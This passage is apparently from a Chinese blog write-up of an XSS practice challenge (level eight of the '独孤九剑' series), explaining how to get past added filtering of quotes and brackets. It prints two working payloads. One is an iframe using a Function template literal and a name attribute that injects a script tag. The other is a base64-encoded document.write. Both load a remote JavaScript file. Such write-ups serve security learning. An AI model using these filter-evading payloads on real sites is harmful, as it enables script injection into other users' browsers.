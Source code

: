 填上之后就弹窗了：  
![在这里插入图片描述](https://img-
blog.csdnimg.cn/af2dbf456c7c4e6da7e0d7ac730be4b5.png?x-oss-
process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzMzMxNDg4,size_16,color_FFFFFF,t_70)  
难不成添加的字符就是做形参用的？

但是这个原理实在不能理解🙄🙄🙄

# 独孤九剑-第八式

## 题目

![在这里插入图片描述](https://img-
blog.csdnimg.cn/92f9c933b9a740ed9a038c72d89726bc.png?x-oss-
process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzMzMxNDg4,size_16,color_FFFFFF,t_70)

> **在上一题的基础上，又新增了对`'`、`"`、`[]` 的过滤**

面对越来越变态的过滤方式，只能看看作者本人的做法了。

## 方法一

题目作者本人给出的方法：

    
    
    <iframe src="http://xcao.vip/test/xss8.php/?data=Function`b${name}```" name="with(document)body.appendChild(createElement('script')).src='http://xcao.vip/xss/alert.js'"></iframe>
    

作者称，他是直接新建了一个网页，往文件里面写入了这个代码。

这里的 `Function()` 是一个 **匿名函数** ，没有函数名。通过给变量 `name` 赋值，然后传入模板字符串，再执行 JavaScript
文件。

点开这个网页的时候，直接执行里面的代码。

成功弹窗：  
![在这里插入图片描述](https://img-
blog.csdnimg.cn/ac41308c1bd14642aad019f94035b329.png?x-oss-
process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzMzMxNDg4,size_16,color_FFFFFF,t_70)  
奇怪的姿势又增加了！

## 方法二

    
    
    http://xcao.vip/test/xss8.php?data=Function`b${atob`ZG9jdW1lbnQud3JpdGUoIjxzY3JpcHQgc3JjPSdodHRwOi8veGNhby52aXAveHNzL2FsZXJ0LmpzJz48L3NjcmlwdD4iKQ`}```
    
